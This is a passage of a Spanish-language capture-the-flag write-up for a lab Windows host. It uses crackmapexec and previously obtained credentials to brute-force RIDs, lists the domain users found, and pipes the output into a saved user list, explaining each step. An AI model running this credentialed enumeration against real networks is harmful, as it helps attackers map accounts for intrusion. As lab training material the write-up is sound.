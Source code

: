 En este punto, ya contamos con las credenciales del usuario **hazard**, pero no podemos acceder a través del puerto 5985. En lugar de eso, vamos a aprovechar los recursos compartidos de red para obtener una lista de usuarios legítimos. Ya que tenemos contraseñas válidas, utilizamos `crackmapexec` para hacer esto de manera eficiente.

#### Paso 1: Realizar Brute Force de RIDs

El siguiente comando utiliza `crackmapexec` para realizar un ataque de **Brute Force** sobre los **RIDs** del host. Esto nos permitirá enumerar los usuarios legítimos del dominio:

```zsh
crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute
```

Esto devuelve una salida como la siguiente, donde podemos ver los usuarios encontrados:

```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

#### Paso 2: Filtrar y Guardar los Usuarios

Queremos almacenar estos usuarios en un archivo, pero no hacerlo manualmente. Para automatizarlo, utilizamos el concepto de [controlar la salida de stdout](https://7heansw3r.github.io/Contral-Total-STDOUT/) de manera eficiente. Usamos el siguiente comando para filtrar y guardar solo los usuarios (eliminando el tipo de SID):

```zsh
crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute 2>/dev/null | awk -F '\\' '{print $2}' | grep 'SidTypeUser' | sed 's/ (SidTypeUser)//' > Users.txt
```

#### Explicación del Comando:

- **`crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute`**: Realiza el brute force de los RIDs en el host.
- **`2>/dev/null`**: Filtra los errores y muestra solo la salida relevante.
- **`awk -F '\\' '{print $2}'`**: Extrae el nombre de usuario, que es la segunda parte de la línea, separada por la barra invertida (`\`).
- **`grep 'SidTypeUser'`**: Filtra solo las líneas que contienen usuarios (`SidTypeUser`).
- **`sed 's/ (SidTypeUser)//'`**: Elimina la cadena `(SidTypeUser)` al final de cada línea.
- **`> Users.txt`**: Redirige la salida a un archivo llamado `Users.txt`.
